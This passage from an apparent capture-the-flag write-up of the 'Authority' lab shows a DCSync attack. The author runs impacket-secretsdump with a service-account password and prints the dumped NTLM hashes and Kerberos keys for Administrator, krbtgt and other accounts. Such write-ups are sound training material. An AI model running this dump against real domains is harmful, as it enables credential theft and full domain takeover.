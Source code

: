 ![image-21.png](/assets/img/Authority/image-21.png)

### Performing a DCSync
With our new replication privileges, can simulate a domain controllers data replication using `secretsdump` to `DCSync` to extract all the user password hashes from the `NTDS.DIT` in the domain!

```shell
┌──(kali㉿kali)-[~/Desktop]
└─$ impacket-secretsdump svc_ldap:'lDaP_1n_th3_cle4r!'@authority.htb                              
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation
[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:6961f422924da90a6928197429eea4ed:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:bd6bd7fcab60ba569e3ed57c7c322908:::
svc_ldap:1601:aad3b435b51404eeaad3b435b51404ee:6839f4ed6c7e142fed7988a6c5d0c5f1:::
AUTHORITY$:1000:aad3b435b51404eeaad3b435b51404ee:5f2d84fb5e44ccaddb52c672b9578fcb:::
EvilComputer$:12101:aad3b435b51404eeaad3b435b51404ee:9281605cb954cea1f1c59e5f7e6587d4:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:72c97be1f2c57ba5a51af2ef187969af4cf23b61b6dc444f93dd9cd1d5502a81
Administrator:aes128-cts-hmac-sha1-96:b5fb2fa35f3291a1477ca5728325029f
Administrator:des-cbc-md5:8ad3d50efed66b16
krbtgt:aes256-cts-hmac-sha1-96:1be737545ac8663be33d970cbd7bebba2ecfc5fa4fdfef3d136f148f90bd67cb
krbtgt:aes128-cts-hmac-sha1-96:d2acc08a1029f6685f5a92329c9f3161
krbtgt:des-cbc-md5:a1457c268ca11919
svc_ldap:aes256-cts-hmac-sha1-96:3773526dd267f73ee80d3df0af96202544bd2593459fdccb4452eee7c70f3b8a
svc_ldap:aes128-cts-hmac-sha1-96:08da69b159e5209b9635961c6c587a96
svc_ldap:des-cbc-md5:01a8984920866862
AUTHORITY$:aes256-cts-hmac-sha1-96:ec22cd5a1be00cba22bdb085dc87b01d33fa7c6d75cb7433b1baf03d5e3d5e78
AUTHORITY$:aes128-cts-hmac-sha1-96:9eb68cf803ce5d245d71d0c3494f01c6
AUTHORITY$:des-cbc-md5:895d670dd3310bc2
EvilComputer$:aes256-cts-hmac-sha1-96:b31fdcbbe066a2a888de66e7297f0349a95b9770066057709c1973ddfae7c1ec
EvilComputer$:aes128-cts-hmac-sha1-96:c2c25aee692b9f156473ca25d36d746c
EvilComputer$:des-cbc-md5:3113f2ecea4ce385
[*] Cleaning up...
```
